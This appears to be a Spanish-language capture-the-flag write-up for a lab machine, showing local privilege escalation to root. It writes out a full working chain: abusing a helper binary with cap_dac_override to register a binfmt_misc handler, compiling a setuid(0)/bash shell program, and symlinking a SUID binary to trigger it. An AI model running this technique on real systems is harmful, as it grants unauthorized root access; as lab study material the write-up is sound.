 Como bien dicen, este binario tiene esta capability (primero tuve que retocar el PATH para verla porque era muy corto)
Dicha capability te permite cambiar de usaurio y grupo.
```console
dev@retired:~/emuemu$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
dev@retired:~/emuemu$ getcap -r / 2>/dev/null /usr/bin/ping cap_net_raw=ep
/usr/lib/emuemu/reg_helper cap_dac_override=ep
```
La capability se pasa sobre este "/usr/lib/emuemu/reg_helper" que a su vez como nos dice su código, llama a binfmt_misc.
Una busqueda en google de dicha cosa (binfmt_misc) nos dice que:
 > binfmt_misc: binario de linux que permite que ciertos programas ejecuten otros con formatos raros, como emuladores y maquinas virtuales.  

Este binario tiene un archivo de una sola linea llamado "register" que define que programa ejecuta que cosa:
```:nombre:tipo:offset:magic:mask:interprete:flags```
Las opciones offset magic y mask son para el tipo si es "M" de magic number, el otro posible es "E" de extension, esta es la que usaremos, porque 
es mas sencilla:
> ":PWN:E::xii::/tmp/shell:C" -> Archivo "PWN" con la extension xii que ejecutara el programa /tmp/shell con la flag C (mantiene privilegios)  

La idea seria escribirlo en "/proc/sys/fs/binfmt_misc/register" pero no nos deja, asi que lo hacemos en reg_helper que, repito, escribe 
en "register" lo que se le pase por el stdin.
```
dev@retired:~/emuemu$ echo ":PWN:E::xii::/tmp/shell:C" | /usr/lib/emuemu/reg_helper
dev@retired:~/emuemu$ nano /tmp/shell
int main(void){
    setuid(0); setgid(0); system("/bin/bash");
}
dev@retired:/tmp$ gcc shell.c -o shell
dev@retired:/tmp$ find / -perm -4000 2>/dev/null | head -n 1
/usr/bin/newgrp
dev@retired:/tmp$ ln -s /usr/bin/newgrp PWN.xii
dev@retired:/tmp$ ./PWN.xii
root@retired:/tmp#
```